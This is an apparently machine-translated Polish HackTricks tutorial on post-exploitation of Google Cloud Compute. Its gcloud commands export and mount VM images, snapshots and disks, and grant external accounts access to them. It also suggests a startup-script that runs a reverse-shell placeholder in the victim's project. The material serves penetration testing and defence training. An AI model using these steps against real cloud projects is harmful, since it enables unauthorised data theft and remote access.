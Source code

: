 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Aby uzyskać więcej informacji na temat Compute i VPC (Networking), sprawdź:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Eksportuj i sprawdź obrazy lokalnie

To pozwoli atakującemu na **dostęp do danych zawartych w już istniejących obrazach** lub **utworzenie nowych obrazów działających VM** i dostęp do ich danych bez dostępu do działającej VM.

Możliwe jest wyeksportowanie obrazu VM do bucketu, a następnie pobranie go i zamontowanie lokalnie za pomocą polecenia:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Aby wykonać tę akcję, atakujący może potrzebować uprawnień do koszyka pamięci masowej oraz na pewno **uprawnień do cloudbuild**, ponieważ to **usługa**, która zostanie poproszona o wykonanie eksportu.\
Ponadto, aby to zadziałało, SA codebuild i SA compute muszą mieć uprawnienia uprzywilejowane.\
SA cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` potrzebuje:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

A SA `<project-id>-compute@developer.gserviceaccount.com` potrzebuje:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Eksportuj i sprawdź migawki i dyski lokalnie

Nie jest możliwe bezpośrednie eksportowanie migawek i dysków, ale możliwe jest **przekształcenie migawki w dysk, dysku w obraz** i zgodnie z **poprzednią sekcją**, wyeksportowanie tego obrazu, aby sprawdzić go lokalnie.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspekcja obrazu tworząc VM

Celem uzyskania dostępu do **danych przechowywanych w obrazie** lub wewnątrz **działającego VM**, z którego atakujący **utworzył obraz,** możliwe jest przyznanie zewnętrznemu kontu dostępu do obrazu:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
a następnie utwórz nową VM z tego:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Jeśli nie mogłeś przyznać dostępu do swojego zewnętrznego konta przez obraz, mógłbyś uruchomić VM używając tego obrazu w projekcie ofiary i **sprawić, by metadane wykonały reverse shell** w celu uzyskania dostępu do obrazu, dodając parametr:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Z celem uzyskania dostępu do **danych przechowywanych na dysku lub w migawce, możesz przekształcić migawkę w dysk, dysk w obraz i postępować zgodnie z wcześniejszymi krokami.**

Lub możesz **przyznać zewnętrznemu kontu dostęp** do dysku (jeśli punktem wyjścia jest migawka, przyznaj dostęp do migawki lub utwórz z niej dysk):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Dołącz dysk** do instancji:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Zamontuj dysk wewnątrz VM:

1.  **SSH do VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Zidentyfikuj dysk**: Po wejściu do VM, zidentyfikuj nowy dysk, wyświetlając urządzenia dyskowe. Zazwyczaj można go znaleźć jako `/dev/sdb`, `/dev/sdc` itp.
3. **Sformatuj i zamontuj dysk** (jeśli to nowy lub surowy dysk):
*   Utwórz punkt montowania:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Zamontuj dysk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Jeśli **nie możesz przyznać dostępu do zewnętrznego projektu** do migawki lub dysku, być może będziesz musiał **wykonać te działania wewnątrz instancji w tym samym projekcie co migawka/dysk**.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
